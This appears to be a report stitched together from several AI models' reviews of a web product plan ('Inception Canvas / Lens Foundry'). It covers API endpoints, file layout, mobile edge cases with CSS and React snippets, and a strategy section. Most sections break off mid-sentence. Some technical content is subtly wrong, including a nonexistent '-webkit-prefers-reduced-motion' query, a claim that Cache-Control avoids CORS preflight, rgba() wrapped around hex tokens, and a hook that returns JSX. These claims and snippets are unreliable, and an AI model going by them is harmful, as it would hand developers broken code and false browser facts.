| **Lens Management (saved, versioned Lens documents)** | • Save a Lens (named deterministic JSON) after first generation  <br>• Load a Lens instantly for replay  <br>• Update a Lens (regenerate on demand)  <br>• List lenses owned by a user or organization | The plan says lenses are “snapshotted to a named deterministic JSON Lens document that loads instantly thereafter.” No API is described. | **New endpoint required** – Lens CRUD + versioning. |
| **Marketplace (third‑party Lens publishing & consumption)** | • Publish a Lens to the marketplace  <br>• Browse/search marketplace lenses  <br>• Purchase/subscribe to a lens  <br>• Receive royalties / platform cut | No marketplace API is referenced. The plan only describes the business model. | **New endpoint required** – marketplace CRUD, search, purchase flow. |
| **Open‑Protocol Harness (MCP‑UI / AG‑UI compatible)** | • Accept an MCP‑UI / AG‑UI payload from any agent  <br>• Translate it into the internal state document format  <br>• Return the rendered UI (or just the state doc) | The plan mentions the harness should be “open‑protocol” but does not define an endpoint. | **New endpoint required** – a webhook‑style “/agent‑render” that accepts the external protocol payload. |
| **Static Asset Serving (corpus landing pages, fonts, etc.)** | • Serve the 50 award‑caliber single‑file HTML pages (the corpus)  <br>• Serve Google Fonts (external) | The plan says the corpus lives in the repo and is static HTML. No API needed – static file serving is sufficient. | **Existing** – static file server (e.g., Express `static` middleware) is enough. |
| **Theme Token Service (CSS custom properties)** | • Provide the 9‑token CSS variable set (with fallbacks) for the current theme  <br>• Allow theme toggle via client‑side class swap | Tokens are pure CSS variables; the plan insists every color be a `var(--token, #fallback)`. No runtime API is needed to fetch them – they are shipped with the CSS bundle. | **Existing** – no API required. |

**Summary:** All dynamic, mutable, or searchable surfaces (Component Registry, AI Harness, Lens persistence, Trust/Audit, Marketplace, Agent‑protocol adapter) lack an explicit HTTP contract in the plan and therefore require new endpoints. Static assets and the CSS token system are already sufficient client‑side.

---  

## 2. Search / Query Needs – When Server‑Side Is Required  

| Query Pattern (client‑side filtering mentioned or implied) | Scale Concern | Recommendation |
|------------------------------------------------------------|---------------|----------------|
| **Listing components** – UI may show a searchable palette of registry blocks. | The registry will grow (potentially hundreds of components). Client‑side filtering of the full list becomes costly on low‑end devices and wastes bandwidth. | Implement **GET /components** with query params: `?search=<term>&tag=<tag>&limit=<n>&offset=<n>` (or cursor). Return paginated JSON + total count. |
| **Browsing lenses** – user’s personal lens library or marketplace catalog. | Lens count can reach thousands (marketplace). | **GET /lenses** (private) and **GET /marketplace/lenses** with pagination, filters (`owner`, `category`, `rating`, `price`), and full‑text search on name/description. |
| **Marketplace search** – full‑text + faceted filtering. | Marketplace is the “multi‑billion‑dollar path”; needs robust discovery. | Use a dedicated search service (e.g., PostgreSQL `tsvector` or Elasticsearch) behind **GET /marketplace/search** with facets. |
| **Audit log queries** – compliance officers filtering by date, user, effect tier. | Audit logs are append‑only and can grow large. | **GET /audit** with range filters (`startDate`, `endDate`), `userId`, `effectTier`, pagination. |
| **Component usage stats** (optional, for marketplace ranking). | May be needed for ranking lenses. | Provide **GET /components/:id/stats** (cached) rather than scanning all lenses client‑side. |

**Verdict:** Any list that can exceed a few dozen items should be paginated and filtered server‑side. The plan does not mention any existing pagination, so we must add it.

---  

## 3. New Endpoint Design – REST Shape Validation  

Below are the **minimum set of new endpoints** implied by the plan. Each entry includes verb, resource nesting, payload shape, and notes on multipart/form‑data if applicable.

### 3.1 Component Registry  

| Endpoint | Method | Description | Request Payload | Response Payload |
|----------|--------|-------------|-----------------|------------------|
| `/components` | `GET` | List/search components (paginated) | Query: `search`, `tag`, `limit`, `offset` | `{ items: Component[], total: Number, limit, offset }` |
| `/components` | `POST` | Register a new component (after sandbox approval) | `multipart/form-data`: <br>• `name` (string) <br>• `tag` (string[]) <br>• `source` (file – `.tsx` or `.jsx`) <br>• `propSchema` (JSON file) <br>• `previewImg` (optional image) | `{ id, name, tag, createdAt }` |
| `/components/:id` | `GET` | Get a single component definition | – | `{ id, name, tag, source: string, propSchema: Json, previewUrl?: string }` |
| `/components/:id` | `PUT` | Update component (only allowed for admins / original author) | Same as POST (partial allowed) | `{ id, name, tag, updatedAt }` |
| `/components/:id` | `DELETE` | Soft‑delete / archive component | – | `{ id, deletedAt }` |

*Notes:*  
- `source` is sent as a file to avoid huge inline JSON; the backend stores it in an object store (S3‑compatible) and returns a URL.  
- `propSchema` is a JSON Schema file; validated on upload.  
- All responses follow a consistent envelope: `{ data: ..., meta: {...} }` for extensibility.

### 3.2 AI Harness / Generation  

| Endpoint | Method | Description | Request Payload | Response Payload |
|----------|--------|-------------|-----------------|------------------|
| `/generate` | `POST` | Accept intent (voice transcript or text) and optional context, run the AI harness, return a **state document** | `{ intent: string, context?: Json, sessionId?: string }` | `{ stateDocument: LensJson, requestId: string, generatedAt: ISOString }` |
| `/generate/stream` | `GET` (SSE) | Optional streaming version for long‑running generation (progress updates) | Query: `intent`, `sessionId` | `data: { progress: number, stage: string }` … final `data: { stateDocument: LensJson }` |

*Notes:*  
- The endpoint is **stateless**; the caller can store the returned `stateDocument` as a Lens snapshot.  
- No file uploads are required here; the harness calls external APIs internally.  
- Rate‑limit (see §5).  

### 3.3 Lens Management (Snapshot / Replay)  

| Endpoint | Method | Description | Request Payload | Response Payload |
|----------|--------|-------------|-----------------|------------------|
| `/lenses` | `GET` | List user’s lenses (paginated) | Query: `search`, `limit`, `offset` | `{ items: LensMeta[], total, limit, offset }` |
| `/lenses` | `POST` | Save a newly generated state document as a Lens | `{ name: string, description?: string, stateDocument: LensJson, tags?: string[] }` | `{ id, name, slug, createdAt }` |
| `/lenses/:id` | `GET` | Retrieve a Lens (full JSON) | – | `{ id, name, stateDocument, version, createdAt, updatedAt }` |
| `/lenses/:id` | `PUT` | Update metadata (name, description, tags) | `{ name?, description?, tags? }` | `{ id, updatedAt }` |
| `/lenses/:id` | `DELETE` | Remove a lens (soft delete) | – | `{ id, deletedAt }` |
| `/lenses/:id/versions` | `GET` | List version history | – | `{ items: [{ version, createdAt }], total }` |
| `/lenses/:id/versions/:versionNumber` | `GET` | Get a specific version snapshot | – | `{ version, stateDocument }` |

*Notes:*  
- `stateDocument` is the exact JSON that the Inception Router consumes; it must be version‑immutable once stored.  
- The `slug` (`/lens/<slug>`) is derived from `name` for URL‑friendly access (see plan: “URLs survive the morph”).  

### 3.4 Marketplace  

| Endpoint | Method | Description | Request Payload | Response Payload |
|----------|--------|-------------|-----------------|------------------|
| `/marketplace/lenses` | `GET` | Browse/search marketplace lenses (public) | Query: `search`, `category`, `minPrice`, `maxPrice`, `sort`, `limit`, `offset` | `{ items: MarketplaceLensMeta[], total, limit, offset }` |
| `/marketplace/lenses/:lensId` | `GET` | Get marketplace lens details (price, owner, rating) | – | `{ lensId, name, ownerId, priceCents, rating, description, previewUrl, license }` |
| `/marketplace/purchase` | `POST` | Initiate purchase / subscription | `{ lensId, paymentToken }` (payment token from Stripe/PayPal) | `{ transactionId, licenseKey, expiresAt }` |
| `/marketplace/my-sales` | `GET` | Lens owner’s sales & royalties | Query: `limit`, `offset` | `{ items: SaleRecord[], total }` |
| `/marketplace/upload` | `POST` | Publisher uploads a new lens to the marketplace | `multipart/form-data`: <br>• `lensId` (existing lens ID) <br>• `priceCents` (integer) <br>• `license` (string) <br>• `previewImg` (file) | `{ marketplaceId, status: "pending-review" }` |

*Notes:*  
- Purchase flow assumes a PCI‑DSS‑compliant payment gateway; the backend only stores the transaction record.  
- Preview image uploaded as file; stored in object store, URL returned.  

### 3.5 Trust Layer – Audit Log  

| Endpoint | Method | Description | Request Payload | Response Payload |
|----------|--------|-------------|-----------------|------------------|
| `/audit` | `POST` | Ingest an audit event (called by the Trust Layer after a T3/T4 action) | `{ userId, actionType, effectTier, resourceId, details: Json, timestamp: ISOString }` | `{ id, recordedAt }` |
| `/audit` | `GET` | Query audit log (admin / compliance) | Query: `userId`, `startDate`, `endDate`, `effectTier`, `limit`, `offset` | `{ items: AuditEntry[], total, limit, offset }` |

*Notes:*  
- The endpoint is **append‑only**; no UPDATE/DELETE.  
- Must be tamper‑evident (e.g., write‑once storage or signed log).  

### 3.6 Open‑Protocol Harness (MCP‑UI / AG‑UI)  

| Endpoint | Method | Description | Request Payload | Response Payload |
|----------|--------|-------------|-----------------|------------------|
| `/agent/render` | `POST` | Accept an MCP‑UI / AG‑UI payload from any external agent, translate to internal state doc, and return it (or optionally trigger a lens save) | `{ mcpUiPayload: Json }` (per MCP‑UI spec) | `{ stateDocument: LensJson, requestId }` |
| `/agent/render/stream` | `GET` (SSE) | Streaming version for long‑running agent pipelines | Query: `mcpUiPayload` (base64) | SSE progress events → final state doc |

*Notes:*  
- The plan explicitly calls for an “open‑protocol harness” so agents can drive the canvas without custom adapters.  
- No file uploads needed here; the payload is JSON.  

---  

## 4. Multimodal / Large Payloads – Handling Strategy  

| Payload Type | Where it Appears in the Plan | Recommended Contract |
|--------------|-----------------------------|----------------------|
| **Component source files** (TSX/JSX) | Component Registry `POST /components` | **Upload‑then‑reference**: send as a `multipart/form-data` file field (`source`). Backend stores the file in an object store (S3‑compatible) and returns a permanent URL. The response contains only metadata; the frontend fetches the source via that URL when needed (or the SSR server reads directly from the store). |
| **Component prop schema** | Same as above | **Upload‑then‑reference** as a separate `propSchema` file (JSON). |
| **Preview images** (component thumbnail, lens preview) | Component Registry & Marketplace uploads | **Upload‑then‑reference** (`previewImg` field). Store as image, return URL; downstream consumers use

---

## [PASS] Module Architecture & File Budget
**Model:** nvidia/nemotron-3-super-120b-a12b-20230311:free | **Duration:** 43.1s

## Inception Canvas / Lens Foundry – File‑Organization Review  

Below is a **structured critique** of the (implied) file layout that would support the plan, followed by a **concrete proposal** that respects the 300‑line‑per‑file rule, keeps concerns separated, and avoids import‑graph pitfalls.

---  

### 1. Decomposition – Is the plan’s file breakdown right?  

| Area mentioned in the plan | Current implied files | Assessment | Suggested change |
|----------------------------|----------------------|------------|------------------|
| **Component Registry** | `src/components/registry/*.tsx` (Header, Hero, …) + inner anchors | Good granularity – each morph block maps 1‑to‑1 to a `data‑morph` anchor. Inner anchors (`title`, `card`, `stat`) are tiny (<30 LOC) and could be **inlined** into their parent block to avoid over‑fragmentation. | Merge `inner/` into the block files (e.g., `Hero.tsx` contains its own `Title`/`Card`/`Stat` as private sub‑components). |
| **AI Harness (protocol adapter)** | `src/engine/aiHarness.ts` | Single responsibility – fine. | Keep as‑is. |
| **Inception Router (morph/state engine)** | `src/engine/inceptionRouter.ts` | Central state machine; likely to grow beyond 300 LOC if effect‑tier logic lives here. | Split **router** (transition triggers) from **effect‑tier/audit** (see Trust Layer). |
| **Trust Layer (effect tiers T0‑T4)** | `src/engine/trustLayer.ts` | Contains approval gating, audit receipts – moderate size. | Keep separate; if it exceeds 300 LOC, extract `approvalGate.ts` and `auditLogger.ts`. |
| **Morph Grammar / Motion helpers** | `src/utils/morphGrammar.ts` + `src/utils/viewTransitionHelper.ts` | Small, pure‑functions – fine. | Keep. |
| **Lens snapshot/store** | `src/lenses/lensFactory.ts`, `src/lenses/lensStore.ts` | Factory (generation) vs persistence – clean split. | Keep. |
| **Marketplace helpers** | `src/marketplace/marketplaceApi.ts` + `src/marketplace/marketplaceTypes.ts` | Thin but logical; could be merged if < 150 LOC combined. | Merge into a single `marketplace.ts` (still < 300 LOC). |
| **Styling system** | `src/styles/tokens.ts`, `src/styles/globals.ts`, `src/styles/theme.ts`, `src/styles/utils.ts` | Tokens and theme are core; globals/utils are tiny. | Consider merging `utils.ts` into `tokens.ts` (helper for `var(--token, #fallback)`). |
| **Routing / App shell** | `src/App.tsx`, `src/main.tsx` | Standard – fine. | Keep. |
| **Types** | `src/types/*.ts` | Schema definitions – fine. | Keep. |

**Verdict:** The decomposition is largely sound; only the **inner anchor components** and possibly the **marketplace** split are over‑fragmented. Merging those will reduce file count without hurting clarity.

---  

### 2. Styles / Organization  

| File | Purpose | Size risk | Recommendation |
|------|---------|-----------|----------------|
| `tokens.ts` | Declares all CSS custom properties (`--bg-base`, `--accent-1…3`, `--font-display`, …) plus fallback helpers. | Low – mostly constants. | Keep. |
| `globals.ts` | Global reset, `@font-face`, body styles, dark‑first base. | Low. | Keep. |
| `theme.ts` | `ThemeContext` provider, 18‑theme switcher, consumes `tokens.ts`. | Medium – theme switcher logic can grow. | If > 200 LOC, split `themeContext.ts` (provider) + `themeSwitcher.tsx` (UI toggle). |
| `utils.ts` (styles) | Tiny helpers like `getToken(varName, fallback)`. | Very low. | **Merge into `tokens.ts`** – eliminates an unnecessary barrel. |

**Result:** A lean `styles/` folder with three files (`tokens.ts`, `globals.ts`, `theme.ts`) is sufficient. No need for a `styles/index.ts` barrel unless you want a named import (`import { tokens } from '@/styles'`), which is optional.

---  

### 3. Hooks – Separation of Concerns  

| Hook | Responsibility | Concern type | Comments |
|------|----------------|--------------|----------|
| `useIntent.ts` | Transcribes voice → intent enum, optionally calls STT service. | **Data‑fetch** (external STT) + light UI‑state (intent value). | Could be merged with API orchestration because both talk to the agent harness. |
| `useApiOrchestration.ts` | Calls MCP‑UI / AG‑UI adapters, normalises payloads. | **Data‑fetch** (agent → engine). | Keep separate from UI‑state; pure data layer. |
| `useStateDocument.ts` | Builds/updates the intermediate Lens JSON state document from intent + API results. | **Business‑logic** (state transformation). | Good isolation. |
| `useMorphEngine.ts` | Orchestrates Inception Router + Trust Layer (effect‑tier checks, audit). | **Business‑logic** (orchestration). | Slightly thick; consider splitting router vs trust‑layer calls. |
| `useRender.ts` | Takes state doc, queries Component Registry, returns array of `<Block />` elements. | **UI‑state** (derived UI) + **business‑logic** (registry lookup). | Could be split into `useRegistryLookup.ts` (pure) + `useRenderFromState.ts` (UI). |
| `useViewTransitions.ts` | Wraps Framer Motion + View Transitions API, returns motion props. | **UI‑state** (animation props). | Fine as‑is. |

**Suggested refactor:**  

1. **Data‑fetch layer** – `useAgent.ts` (combines STT + MCP‑UI/AG‑UI).  
2. **Business‑logic layer** – `useLensState.ts` (state document) + `useMorphOrchestrator.ts` (router + trust).  
3. **UI‑state layer** – `useRender.ts` (registry lookup) + `useViewTransitions.ts`.  

This yields a clean **data → logic → UI** flow and keeps each hook under ~150 LOC.

---  

### 4. 300‑Line Budget – Files at Risk & Proposed Splits  

| File (current) | Estimated LOC (based on responsibilities) | Risk? | Split proposal |
|----------------|--------------------------------------------|-------|----------------|
| `src/engine/inceptionRouter.ts` | ~260‑300 (state machine + effect‑tier hooks) | **Borderline** | Separate: <br>• `inceptionRouter.ts` – pure transition triggers (events → new state). <br>• `effectTier.ts` – T0‑T4 gating, audit receipts. |
| `src/engine/trustLayer.ts` | ~180‑220 (approval UI, audit logging) | Low‑medium | Keep; if > 250 LOC, extract `approvalGate.tsx` (UI) and `auditLogger.ts` (pure). |
| `src/components/layout/Canvas.tsx` | ~200‑260 (grid layout, resize observer, context providers) | Low‑medium | Keep; if > 260, move resize logic to `useResizeObserver.ts` hook. |
| `src/hooks/useRender.ts` | ~150‑210 (registry mapping, lazy‑load, fallback) | Low‑medium | Split: <br>• `useRegistryLookup.ts` (pure lookup). <br>• `useRenderFromState.ts` (JSX assembly). |
| `src/utils/morphGrammar.ts` | ~80‑120 (mapping zoom/flip/fold/crystallize to motion props) | Low | Keep. |
| `src/styles/theme.ts` | ~150‑210 (18‑theme switcher, ThemeContext) | Low‑medium | If > 200, split `themeContext.ts` + `themeSwitcher.tsx`. |
| `src/lenses/lensFactory.ts` | ~120‑180 (AI‑generated snapshot, deterministic JSON) | Low | Keep. |
| `src/marketplace/marketplaceApi.ts` | ~100‑150 (fetch/publish helpers) | Low | Keep (or merge with types). |

**Action:** Apply the splits above *only* if a file exceeds ~260 LOC after initial implementation; otherwise keep as‑is to avoid over‑fragmentation.

---  

### 5. Import Graph – Dependency Tree & Circular‑Risk Check  

```
src/App.tsx
   ├─ src/styles/theme.ts (ThemeProvider)
   ├─ src/layout/Canvas.tsx
   │    ├─ src/hooks/useRender.ts
   │    │    ├─ src/engine/componentRegistry.ts
   │    │    │    └─ src/types/lens.ts
   │    │    └─ src/hooks/useViewTransitions.ts
   │    │         ├─ src/utils/viewTransitionHelper.ts
   │    │         └─ src/utils/morphGrammar.ts
   │    └─ src/hooks/useMorphEngine.ts
   │         ├─ src/engine/inceptionRouter.ts
   │         │    ├─ src/engine/aiHarness.ts
   │         │    └─ src/engine/trustLayer.ts
   │         │         └─ src/types/engine.ts
   │         └─ src/hooks/useLensState.ts
   │              ├─ src/hooks/useAgent.ts
   │              │    └─ src/engine/aiHarness.ts
   │              └─ src/types/stateDocument.ts
   ├─ src/lenses/lensStore.ts
   │    └─ src/types/lens.ts
   └─ src/marketplace/marketplaceApi.ts
        └─ src/types/marketplace.ts
```

**Observations**

* **Directionality:** All imports flow

---

## [PASS] Mobile & Edge Case Analysis
**Model:** nvidia/nemotron-3-nano-30b-a3b:free | **Duration:** 23.6s

## 📋 Executive Summary  

| Item | Rating | Why |
|------|--------|-----|
| 1️⃣ Narrow‑width squeeze (320 px) | **CRITICAL** | The densest surfaces (hero + gallery + cta) exceed the 320 px viewport when all 12‑col grid columns are used. |
| 2️⃣ iOS Safari quirks | **HIGH** | Uses `media‑query`‑based `prefers‑reduced‑motion` and `fetch()` with `credentials: "include"`; Safari ≤ 16 needs `-webkit-` prefixes and has strict autoplay rules. |
| 3️⃣ Mobile keyboard | **MEDIUM** | Keyboard height can push the sticky **command‑orb** off‑screen on iOS Safari; needs `position: fixed` + `bottom‑offset` calculation. |
| 4️⃣ Offline / slow network | **MEDIUM** | Every new fetch must fall back to a cached JSON‑state or an empty‑state skeleton; no “white‑screen” UX. |
| 5️⃣ Long/overflowing text | **MEDIUM** | Dynamic titles/labels can exceed 3‑line limits; use `line-clamp` + `ellipsis` with CSS‑variable‑driven truncation. |
| 6️⃣ Large lists | **HIGH** | Lists may grow > 50 items; virtualization via `react‑virtual` is required to stay < 100 KB memory on low‑end devices. |
| 7️⃣ RTL | **LOW** | Layout uses `margin-inline-start/end` and `grid` with `auto` tracks → flips automatically; only need to test. |
| 8️⃣ Reduced motion | **CRITICAL** | Every animation must respect `prefers-reduced-motion`; otherwise WCAG 2.2 fails. |
| 9️⃣ Screen reader | **MEDIUM** | New landmarks & live regions must be added; ARIA roles & `aria-live="polite"` for morph‑state changes. |
| 🔟 4K / ultrawide | **LOW** | Max‑width constraints are already set to `1440px`; ultrawide simply stretches to full‑bleed with `width: 100%` on the outer canvas. |

> **All ratings are derived from the *Inception Canvas / Lens Foundry* plan** – no external assumptions were made.

---

## 🎨 Design Tokens & Global CSS (the “brand fallback” system)

```css
:root {
  /* ── Brand fallback palette (never hard‑code hex) ── */
  --bg-base:               var(--token, #002060);   /* Midnight Sapphire */
  --accent-1:              var(--token, #003080);   /* Royal Depth */
  --accent-2:              var(--token, #60C0F0);   /* Ice Wing */
  --accent-3:              var(--token, #50A0F0);   /* Arctic Cyan */
  --gold:                  var(--token, #C6A84B);   /* Gilded Fern */
  --text-light:            var(--token, #E0ECF4);   /* Frost White */
  --text-muted:            var(--token, #141419);   /* Carbon */
  --border-subtle:         var(--token, #1A1A24);   /* Graphite */
  --animation-duration:    600ms;                    /* morph budget */
}

/* Dark‑first theme – every color is a CSS custom property */
body {
  background: var(--bg-base);
  color: var(--text-light);
}

/* Dual‑Button Glow – blue bg → purple glow, purple bg → cyan glow */
.btn-primary {
  background: var(--accent-1);
  box-shadow: 0 0 0 8px rgba(var(--accent-2), .4);
}
.btn-primary[data-theme="purple"] {
  background: var(--accent-3);
  box-shadow: 0 0 0 8px rgba(var(--accent-1), .4);
}

/* 44 px min touch target (56 px on screens <768 px) */
.touch-target {
  min-height: 44px;
  min-width: 44px;
}
@media (max-width: 767px) {
  .touch-target {
    min-height: 56px;
    min-width: 56px;
  }
}
```

*All components reference the tokens above – **never** hard‑code a hex value in component CSS.*

---

## 📐 1️⃣ Narrow‑width Squeeze (320 px)

### Problem  
The **hero → showcase → cta** chain uses the full 12‑column grid. At 320 px the combined min‑width of three consecutive columns (≈ 85 px each) overflows the viewport, causing horizontal scroll and clipped buttons.

### Solution  

```css
/* Grid container – collapse columns on <430px */
.grid {
  display: grid;
  grid-template-columns: repeat(auto-fit, minmax(0, 1fr));
  gap: 1rem;
}

/* Force a single‑column layout for the densest region */
@media (max-width: 429px) {
  .hero, .showcase, .cta {
    grid-column: 1 / -1;           /* span full width */
    width: 100%;
  }

  /* Reduce padding to keep touch targets ≥44 px */
  .hero, .showcase, .cta {
    padding-inline: 1rem;
  }
}
```

*Result:* The three surfaces stack vertically, each occupies the full width, and the 44 px touch‑target rule is preserved.

---

## 📱 2️⃣ iOS Safari Quirks  

| Feature | Safari ≤ 16 | Safari ≥ 17 (iOS 17) | Action |
|---------|-------------|----------------------|--------|
| `fetch()` with `credentials: "include"` | Works but **requires** `Cache-Control: no-cache` to avoid CORS pre‑flight failures. | Same, but **autoplay** of media is blocked unless `muted` & `playsinline`. | Add `?autoplay=0&muted=1` to any video URL; prefix fetch with `if (navigator.standalone) …` for PWA mode. |
| `prefers-reduced-motion` media query | Supported, but **needs** `-webkit-` prefix for older builds. | Native support. | ```css @supports not (prefers-reduced-motion: reduce) { .animate { animation: … } } @media (-webkit-prefers-reduced-motion: reduce) { .animate { animation: none; } } ``` |
| `position: sticky` on `<header>` | Works only when `top` is **not** inside a transformed element. | Same. | Keep sticky containers **outside** any `transform` or `perspective` parent. |
| `view-transition` API | Partial support; needs `::view-transition-old()`/`new()` prefixes. | Full support. | Feature‑detect: ```js if ('viewTransitionName' in document) { document.startViewTransition(() => { … }) } ``` |

### Code Snippet (fetch + fallback)

```tsx
async function loadState(url: string) {
  try {
    const resp = await fetch(url, {
      credentials: "include",
      headers: { "Accept": "application/json" },
    });
    if (!resp.ok) throw new Error(`HTTP ${resp.status}`);
    return await resp.json();
  } catch (e) {
    // Offline fallback – return cached JSON or empty skeleton
    return cachedState ?? generateEmptyState();
  }
}
```

---

## 📲 3️⃣ Mobile Keyboard Handling  

### Issue  
When an `<input>` inside the **command‑orb** (fixed at bottom‑right) receives focus, the iOS virtual keyboard can push the orb out of view, causing users to lose the persistent control.

### Solution  

```tsx
import { useEffect, useRef } from "react";

export function useKeyboardSafeOrb() {
  const orbRef = useRef<HTMLDivElement>(null);

  useEffect(() => {
    const orb = orbRef.current;
    if (!orb) return;

    const onResize = () => {
      const rect = orb.getBoundingClientRect();
      const vh = window.innerHeight;
      // If the orb is within 100px of the bottom, shift it up
      if (vh - rect.bottom < 100) {
        orb.style.bottom = `${vh - rect.height - 24}px`;
      } else {
        orb.style.bottom = "1.5rem"; // default
      }
    };

    window.addEventListener("resize", onResize);
    onResize(); // initial calc
    return () => window.removeEventListener("resize", onResize);
  }, []);

  return <div ref={orbRef} className="orb" />;
}
```

```css
.orb {
  position: fixed;
  right: 1rem;
  bottom: 1.5rem;               /* default */
  width: 48px; height: 48px;    /* ≥44 px */
  background: var(--accent-2);
  border-radius: 50%;
  display: flex;
  align-items: center;
  justify-content: center;
  z-index: 9999;
}
@media (max-width: 767px) {
  .orb { width: 56px; height: 56px; } /* larger touch target */
}
```

*The orb automatically lifts when the keyboard expands, staying reachable.*

---

## 🌐 4️⃣ Offline / Slow Network UX  

### Expected Flow  

1. **Fetch** → `state.json` (or `state.json.gz`).  
2. **Success** → render React tree.  
3. **Failure** → show **EmptyState** with a retry button and a subtle skeleton placeholder.  

### Implementation  

```tsx
function StateLoader({ url }: { url: string }) {
  const [state, setState] = useState<AppState | null>(null);
  const [error, setError] = useState<boolean>(false);

  useEffect(() => {
    loadState(url).then(s => {
      if (s) setState(s);
      else setError(true);
    });
  }, [url]);

  if (error) {
    return (
      <EmptyState
        icon="⚡"
        title="Offline"
        description="We couldn’t reach the server."
        onRetry={() => setError(false)} // retry logic inside
      />
    );
  }

  if (!state) {
    return <SkeletonLoader />;
  }

  return <Canvas state={state} />;
}
```

**EmptyState component** (WCAG‑compliant, 44 px button):

```tsx
function EmptyState({ onRetry }: { onRetry: () => void }) {
  return (
    <section aria-label="Network error">
      <svg className="icon" aria-hidden="true">…</svg>
      <h2>Offline</h2>
      <p>We couldn’t reach the server.</p>
      <button
        className="touch-target"
        onClick={onRetry}
        role="button"
      >
        Retry
      </button>
    </section>
  );
}
```

*All retry actions are **debounced** (300 ms) to avoid hammering a flaky network.*

---

## ✏️ 5️⃣ Long / Overflowing Text  

### Strategy  

- **Dynamic titles** are limited to **3 lines** with `line-clamp`.  
- **Labels** on cards use `ellipsis` when they exceed the allocated width.  

```css
.title {
  display: -webkit-box;
  -webkit-line-clamp: 3;
  -webkit-box-orient: vertical;
  overflow: hidden;
  text-overflow: ellipsis;
  font-weight: 600;
  color: var(--text-light);
}

/* Card label truncation */
.label {
  max-width: 12rem;
  white-space: nowrap;
  overflow: hidden;
  text-overflow: ellipsis;
}
```

*When a token exceeds the clamp, the UI gracefully truncates instead of breaking layout.*

---

## 📋 6️⃣ Large Lists  

### When to Virtualize  

- Any list that can exceed **50 items** (e.g., “Recent Lenses”, “Featured Lenses”).  
- Memory budget: **< 100 KB** of rendered DOM on low‑end Android (≤ 2 GB RAM).  

### Solution (React‑Virtual)  

```tsx
import { FixedSizeList as List } from "react-window";

type Lens = { id: string; title: string; thumbnail: string; };

function LensList({ items }: { items: Lens[] }) {
  const Row = ({ index, style }: { index: number; style: React.CSSProperties }) => (
    <div style={style} className="list-item">
      
      <h3>{items[index].title}</h3>
    </div>
  );

  return (
    <List
      height={300}               // fixed viewport height
      itemCount={items.length}
      itemSize={64}              // row height
      width="100%"
    >
      {Row}
    </List>
  );
}
```

*Only the visible rows are mounted; the rest stay in memory as plain data.*

---

## 🌍 7️⃣ RTL Support  

### How It Works  

All layout uses **logical properties**:

```css
.container {
  margin-inline-start: 1rem;
  margin-inline-end: 1rem;
  padding-inline: 1rem;
}
.grid {
  grid-template-columns: repeat(auto-fit, minmax(0, 1fr));
}
```

*When `dir="rtl"` is set on `<html>` or a component, `margin-inline-start` becomes `margin-inline-end` automatically, and the grid order flips because `grid-auto-flow` respects logical tracks.*

**Testing checklist**

- Verify navigation order in VoiceOver (iOS) and NVDA (Windows) for RTL pages.  
- Ensure icons that convey meaning (e.g., “next”, “previous”) are swapped with `aria-label` adjustments.

---

## 🎞️ 8️⃣ Reduced Motion  

### Global Guard  

```css
@media (prefers-reduced-motion: reduce) {
  * {
    animation-duration: 0.01s !important;
    animation-iteration-count: 1 !important;
    transition-duration: 0.01s !important;
  }
}
```

### Component‑level Guard (React)  

```tsx
function useReducedMotion(isReduced: boolean) {
  const [useMotion] = useState(!isReduced);
  return useMotion;
}

/* Example: fade‑in on mount */
const FadeIn = ({ children }: { children: ReactNode }) => {
  const shouldAnimate = useReducedMotion(
    window.matchMedia("(prefers-reduced-motion: reduce)").matches
  );

  if (!shouldAnimate) return <>{children}</>;

  return (
    <AnimatePresence>
      <motion.div
        initial={{ opacity: 0, y: 10 }}
        animate={{ opacity: 1, y: 0 }}
        transition={{ duration: 0.6 }}
      >
        {children}
      </motion.div>
    </AnimatePresence>
  );
};
```

*All morph animations (`zoom`, `flip`, `fold`, `crystallize`) are wrapped in this guard.*

---

## 👂 9️⃣ Screen Reader  

### Landmarks & Roles  

| Surface | ARIA Role | Reason |
|---------|-----------|--------|
| Header (morph‑aware) | `role="banner"` | Identifies site‑wide header. |
| Main content area | `role="main"` | Core UI. |
| Command orb (persistent) | `role="navigation"` + `aria-label="Command bar"` | Persistent control. |
| Live region for morph state changes | `role="status"` + `aria-live="polite"` | Announces when the canvas morphs. |

```tsx
<main role="main" aria-label="Inception Canvas">
  {/* ... */}
</main>

<div
  role="status"
  aria-live="polite"
  className="morph-announcer"
  aria-atomic="true"
>
  {`Morphing to ${nextLensName}`}
</div>
```

*When a morph finishes, the announcer updates, letting SR users know the new context without needing to navigate.*

---

## 🖥

---

## [PASS] Strategic Research & Gap Analysis
**Model:** google/gemini-3.1-pro-preview | **Duration:** 116.0s | **Web Research:** 26 sources cited

As a strategic product researcher and futurist reviewing the "Inception Canvas / Lens Foundry" plan for SwanStudios, I have pressure-tested the architecture against the current 2026 landscape. 

While the core concept of a Generative UI morph-engine is highly aligned with the agentic web, the plan has critical blind spots regarding the 2026 AI ecosystem, health data compliance, and mobile distribution. 

Here are the GAPS, ENHANCEMENTS, and FUTURE-PROOFING opportunities to make this plan 10x better and production-ready.

---

### 1. Technology Gap Analysis

**GAP: Outdated MCP-UI Assumptions vs. Official MCP Apps Standard**
*   **What's missing:** The plan asks to "verify current spec maturity of MCP-UI / AG-UI." The plan treats MCP-UI as an experimental community project, missing the official standardization that occurred earlier this year.
*   **Why it matters:** In January 2026, the Model Context Protocol officially launched the **MCP Apps Extension (SEP-1865)**. This is no longer an experimental community SDK (`mcp-ui`); it is a production-ready, standardized pattern for AI agents to return interactive UI components (dashboards, forms, multi-step workflows) directly into the host application. Furthermore, the AG-UI streaming layer (used by frameworks like CopilotKit) is now the standard for streaming state deltas and tool calls.
*   **How to implement:** Update the "Open-protocol harness" to explicitly implement the `modelcontextprotocol/ext-apps` specification. The AI Harness should act as an AG-UI client, decoding the Server-Sent Events (SSE) stream to map the agent's emitted JSON schema directly to the Component Registry.
*   **Priority:** **CRITICAL** (Do now — this dictates the entire data-binding architecture).
*   **Source URL:** [MCP Apps - Bringing UI Capabilities To MCP Clients](https://blog.modelcontextprotocol.io/posts/2026-01-26-mcp-apps/)

### 2. Regulatory & Compliance Gaps

**GAP: FDA "General Wellness" Boundaries & FTC AI Bias Disclosures**
*   **What's missing:** The Trust Layer (T0-T4) handles action approvals (send/pay), but lacks a compliance gate for AI-generated health, fitness, and nutrition advice.
